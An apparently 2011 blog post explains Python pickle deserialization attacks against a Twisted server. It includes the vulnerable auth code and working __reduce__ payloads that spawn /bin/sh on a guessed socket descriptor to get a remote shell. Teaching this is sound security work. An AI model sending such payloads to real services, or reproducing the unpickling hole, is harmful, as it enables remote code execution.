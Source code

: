 ```yaml
---
author: nelhage
author_email: nelhage@mit.edu
author_login: nelhage
author_url: http://nelhage.com
date: 2011-03-20T18:38:13Z
status: publish
tags:
- security
- python
- shell
- twisted
- pickle
title: Exploiting misuse of Python's "pickle"
url: /2011/03/exploiting-pickle/
wordpress_id: 469
wordpress_url: http://blog.nelhage.com/?p=469
---
```


If you program in Python, you're probably familiar with the
[`pickle`][pickle] serialization library, which provides for efficient
binary serialization and loading of Python datatypes. *Hopefully*,
you're also familiar with the warning printed prominently near the
start of `pickle`'s documentation:

> *Warning:* The pickle module is not intended to be secure against
> erroneous or maliciously constructed data. Never unpickle data
> received from an untrusted or unauthenticated source.

Recently, however, I stumbled upon a project that was accepting and
unpacking untrusted pickles over the network, and a poll of some
friends revealed that few of them were aware of just how easy it is to
exploit a service that does this. As such, this blog post will
describe exactly how trivial it is to exploit such a service, using a
simplified version of the code I recently encountered as an
example. Nothing in here is novel, but it's interesting if you haven't
seen it.

The Target
----------

The vulnerable code was a [Twisted][twisted] server that listened over
SSL. The code looked roughly like the following:

<pre lang="python">
class VulnerableProtocol(protocol.Protocol):
  def dataReceived(self, data):

     # Code to actually parse incoming data according to an
     #  internal state machine
     # If we just finished receiving headers, call verifyAuth() to
       check authentication

  def verifyAuth(self, headers):
    try:
      token = cPickle.loads(base64.b64decode(headers['AuthToken']))
      if not check_hmac(token['signature'], token['data'], getSecretKey()):
        raise AuthenticationFailed
      self.secure_data = token['data']
    except:
      raise AuthenticationFailed
</pre>

So, if we just send a request that looks something like:

    AuthToken: <pickle here>

The server will happily unpickle it.

Executing Code
--------------

So, what can we do with that? Well, `pickle` is supposed to allow us
to represent arbitrary objects. An obvious target is Python's
[`subprocess.Popen`][subprocess] objects -- if we can trick the target
into instantiating one of those, they'll be executing arbitrary
commands for us! To generate such a pickle, however, we can't just
create a `Popen` object and pickle it; For various mostly-obvious
reasons, that won't work. We could read up on the "pickle" format and
construct a stream by hand, but it turns out there is no need to.

`pickle` allows arbitrary objects to declare how they should be
pickled by defining a [`__reduce__`][reduce] method, which should
return either a string or a tuple describing how to reconstruct this
object on unpacking. In the simplest form, that tuple should just
contain

 - A callable (which must be either a class, or satisfy some other,
   odder, constraints), and
 - A tuple of arguments to call that callable on.

`pickle` will pickle each of these pieces separately, and then on
unpickling, will call the callable on the provided arguments to
construct the new object.

And so, we can construct a pickle that, when un-pickled, will execute
`/bin/sh`, as follows:

<pre lang="python">
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
</pre>

Getting a Remote Shell
----------------------

At this point, we've basically won. We can run arbitrary shell
commands on the target, and there are any number of ways we could
bootstrap from here up to an interactive shell and whatever else we
might want.

For completeness, I'll explain what I did, since it's a moderately
cute trick. `subprocess.Popen` lets us select which file descriptors
to attach to stdin, stdout, and stderr for the new process by passing
integers for the `stdin` and similarly-named arguments, so we can open
our `/bin/sh` on arbitrarily-numbered fd's.

However, as mentioned above, the target server uses Twisted, and it
serves all requests in the same thread, using an asynchronous
event-driven model. This means we can't necessarily predict which file
descriptor on the server will correspond to our socket, since it
depends on how many other clients are connected.

It also means, however, that every time we connect to the server,
we'll open a new socket inside the same server process. So, let's
guess that the server has fewer than, say, 20 concurrent connections
at the moment. If we connect to the server's socket 20 times, that
will open 20 new file descriptors in the server. Since they'll get
assigned sequentially, one of them will almost certainly be fd
20. Then, we can generate a pickle like so, and send it over:

<pre lang="python">
import cPickle
import subprocess
import base64

class Exploit(object):
  def __reduce__(self):
    fd = 20
    return (subprocess.Popen,
            (('/bin/sh',), # args
             0,            # bufsize
             None,         # executable
             fd, fd, fd    # std{in,out,err}
             ))

print base64.b64encode(cPickle.dumps(Exploit()))
</pre>

We'll open a `/bin/sh` on fd 20, which should be one of our 20
connections, and if all goes well, we'll see a prompt printed to one
of those. We'll send some junk on that fd until we manage to get the
original server to error out and close the connection, and we'll be
left talking to `/bin/sh` over a socket. Game over.

In Conclusion
-------------

Again, nothing here should be novel, nor would I expect any of these
pieces to take a competent hacker more than few minutes to figure out,
given the problem. But if this blog post teaches someone not to use
`pickle` on untrusted data, then it will be worth it.

[pickle]: http://docs.python.org/library/pickle.html
[twisted]: http://twistedmatrix.com/
[subprocess]: http://docs.python.org/library/subprocess.html
[pep-307]: http://www.python.org/dev/peps/pep-0307/
[reduce]: http://docs.python.org/library/pickle.html#object.__reduce__
